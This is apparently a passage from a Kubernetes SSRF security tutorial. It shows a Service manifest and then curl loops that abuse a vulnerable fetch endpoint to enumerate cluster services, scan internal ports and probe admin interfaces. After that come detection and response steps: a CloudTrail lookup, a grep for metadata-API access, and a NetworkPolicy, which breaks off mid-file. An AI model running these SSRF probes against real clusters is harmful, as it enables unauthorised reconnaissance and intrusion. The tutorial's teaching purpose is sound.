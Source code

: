 ```yaml
apiVersion: v1
kind: Service
metadata:
  name: admin-api
  namespace: production
  labels:
    tier: admin
spec:
  selector:
    app: admin-backend
  ports:
  - port: 8080
    targetPort: 8080
  type: ClusterIP
```

#### SSRF Enumeration Attack Commands
```bash
# Discover services using Kubernetes DNS
for ns in default kube-system production; do
  for svc in database admin-api metrics-server api-gateway; do
    curl "http://vulnerable-app/fetch?url=http://${svc}.${ns}.svc.cluster.local/"
  done
done

# Port scanning internal services
for port in 80 443 5432 3306 6379 9200 8080 8443; do
  curl "http://vulnerable-app/fetch?url=http://internal-service:${port}/"
done

# Probe for admin interfaces
curl "http://vulnerable-app/fetch?url=http://admin-api.production.svc.cluster.local:8080/admin/"
curl "http://vulnerable-app/fetch?url=http://admin-api.production.svc.cluster.local:8080/health"
curl "http://vulnerable-app/fetch?url=http://admin-api.production.svc.cluster.local:8080/metrics"
```

## Troubleshooting Scenarios: "What happens when this breaks at 2AM?"

### Crisis Scenario 1: AWS Bill Explosion
```bash
# Detection: Unusual AWS API calls
aws cloudtrail lookup-events --lookup-attributes AttributeKey=EventName,AttributeValue=AssumeRole

# Investigation: Check for metadata API access
kubectl logs deployment/vulnerable-ssrf-app | grep "169.254.169.254"

# Immediate Response: Block metadata access
kubectl apply -f - <<EOF
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: block-metadata-access
  namespace: security-demo
spec:
  podSelector:
    matchLabels:
      app: vulnerable-ssrf
  policyTypes:
  - Egress
  egress:
  - to: []
    ports:
```